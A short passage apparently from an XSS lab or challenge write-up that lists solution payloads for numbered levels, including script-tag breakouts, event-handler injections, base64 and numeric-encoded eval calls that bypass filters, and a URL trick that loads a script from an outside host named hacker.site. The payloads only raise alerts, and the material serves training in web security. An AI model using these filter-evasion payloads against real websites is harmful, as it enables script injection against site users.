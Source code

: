 ```js
[\u2028]eval('x61lert(\'l33t\')'
</Title/</script/><Input Type=Text Style=position:fixed;top:0;left:0;font-size:999px */; Onmouseenter=confirm`l33t` //>#
</Title/</script/><img src=x onerror="\u0061lert('l33t')"/>#
</script><svg onload="eval(atob('YWxlcnQoJ2wzM3QnKQ=='))"> 
```

### 10 - no string / no alert /

```js
<script>eval(8680439..toString(30))(983801..toString(36))</script>
```

### 11 - no scripts / dont break src tag

```js
http://11.xss.labs%2f@hacker.site/X.js
```
